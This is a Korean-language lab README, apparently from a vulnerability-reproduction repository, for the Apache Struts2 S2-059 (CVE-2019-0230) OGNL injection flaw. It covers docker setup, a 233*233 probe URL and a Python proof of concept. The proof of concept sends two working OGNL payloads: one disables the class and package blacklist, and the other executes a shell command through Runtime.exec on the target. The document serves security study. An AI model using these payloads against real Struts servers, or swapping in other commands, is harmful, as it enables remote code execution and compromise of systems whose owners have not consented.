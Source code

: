 # Struts2 S2-059 원격 코드 실행 취약점 (Remote Code Execution Vulnerablity(CVE-2019-0230))


Apache Struts 프레임워크는 ID 속성과 같은 특정 태그의 속성 값을 2차적으로 분석하므로 공격자가 태그 속성을 나타낼 때 다시 분석될 OGNL 표현을 전달하여 OGNL 표현을 주입할 수 있습니다.이로 인해 코드가 원격으로 실행될 수 있습니다.

Affected Version: Struts 2.0.0 - Struts 2.5.20

참고자료:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 설정

Start the Struts 2.5.16 환경:

```
docker compose up -d
```

환경 설정 후, `http://{나의 ip주소}:8080/?id=1`에 가보면 Struts2 test page를 볼 수 있다.
![1.png](1.png)
## Exploit

`http://{나의 ip주소}:8080/?id=%25%7B233*233%7D`에 방문해보면 id 속성에서 233*233 결과과 반환된 것을 확인 가능
즉, 이 표현식을 사용한 주요 목적은 Struts2이 사용자 제공 입력을 OGNL 표현식으로 해석하고 실행하는지 여부를 확인하는 것. 만약 사용자가 제공한 입력 값인 233*233이 평가되어서 결과 값인 54289로 반환된다면, 애플리케이션은 OGNL 표현식 주입 취약점이 있음을 알 수 있음.
*변경 확인 방법은 개발자 도구를 통해 확인 가능
![2.png](2.png)
![3.png](3.png)
![4.png](4.png)


[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)(참고 자료)를 통해 Struts 2.5.16.의 OGNL sandbox bypass의 세부사항을 알 수 있습니다.

취약점 증명용 간단한 파이썬 POC:

```python
import requests  # requests 모듈을 불러옴

url = "http://127.0.0.1:8080"  # 대상 웹 서버의 URL

# 첫 번째 공격 payload
# Struts2의 OGNL 표현식을 이용하여 웹 어플리케이션의 보안 설정을 바꾸려고 시도.
# 특히, 실행될 클래스와 패키지의 제한을 제거하려고 시도.
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}

# 두 번째 공격 payload
# 첫 번째 payload에서의 보안 설정 변경 후, 서버 내에서 외부 명령을 실행하려고 시도.
# 'touch /tmp/successbywhs1hyeongyu' 명령을 사용하여 서버 내 '/tmp' 디렉터리에 파일을 생성.
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/successbywhs1hyeongyu'))}"
}

# 첫 번째 공격 payload를 사용하여 POST 요청을 전송
res1 = requests.post(url, data=data1)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res1.text)

# 두 번째 공격 payload를 사용하여 POST 요청을 전송
res2 = requests.post(url, data=data2)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res2.text)

```

해당 POC를 실행하면 `touch /tmp/successbywhs1hyeongyu`가 실행이 된다.:
![5.png](5.png)
![6.png](6.png)
![7.png](7.png)
![8.png](8.png)
